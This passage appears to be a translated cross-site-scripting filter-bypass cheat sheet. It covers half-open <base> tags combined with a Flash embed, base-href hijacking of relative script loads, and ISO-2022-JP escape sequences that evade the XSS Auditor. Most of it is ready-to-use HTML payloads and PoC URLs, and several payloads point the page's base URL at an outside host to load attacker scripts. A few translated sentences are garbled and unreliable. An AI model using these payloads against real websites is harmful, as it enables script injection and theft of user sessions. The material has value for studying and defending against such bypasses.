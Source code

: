 ### Using half-baked base tags (Safari only)

#### Use of Flash

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. immediately followed by whitespace or `'"`after
3. Flash can be used in the target environment

Reference URL:

- https://masatokinugawa.l0.cm/2016/05/xss8.html

PoCs:

(if there is no space immediately after):
https://vulnerabledoma.in/bypass/text?type=3&q=%3Cembed%20allowscriptaccess=always%20src=/xss.swf%3E%3Cbase%20href=//l0.cm/

```html
<div><embed allowscriptaccess=always src=/xss.swf><base href=//l0.cm/</div>
```

(If there is a white space immediately after):
https://vulnerabledoma.in/bypass/text?type=4&q=%3Cembed%20allowscriptaccess=always%20src=/xss.swf%3E%3Cbase%20href=%22//l0.cm/

```html
<div> <embed allowscriptaccess=always src=/xss.swf><base href="//l0.cm/ </div><div id="x"></div>
```

#### Using scripts loaded with relative URLs

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. immediately followed by whitespace or `'"`after
3. After that there is a part that loads the script with a relative URL

PoCs:

https://vulnerabledoma.in/bypass/text?type=9&q=%3Cbase%20href=//cors.l0.cm/

```html
<div><base href=//cors.l0.cm/</div><script src=/test.js></script>
```

### Use of ISO-2022-JP escape sequences

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. There is no character code specified on the page

supplement:

In ISO-2022-JP HTML, byte sequences such as `[0x1B](B`, `[0x1B](H`, `[0x1B](J`are ignored. You can bypass this by putting it between react strings. Also, in Chrome/Safari, `[0x1B]$@[0x0A]`byte strings such as `[0x0A]`are treated in the same way as, but the XSS Auditor cannot interpret them well and causes a bypass.
